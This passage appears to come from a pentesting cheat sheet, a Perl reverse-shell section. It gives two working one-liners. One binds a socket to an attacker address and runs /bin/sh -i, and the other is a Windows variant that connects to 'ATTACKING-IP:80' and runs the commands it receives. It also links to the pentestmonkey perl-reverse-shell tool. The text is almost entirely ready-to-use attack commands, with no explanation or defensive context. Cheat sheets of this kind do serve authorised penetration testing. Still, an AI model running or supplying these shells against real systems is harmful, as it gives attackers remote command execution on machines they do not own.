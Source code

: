 # Perl

#### Save this as a CGI file: - you can always just use a command line as well

```text
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### perl-reverse-shell

​​[http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

### Perl Windows Reverse Shell

```text

perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

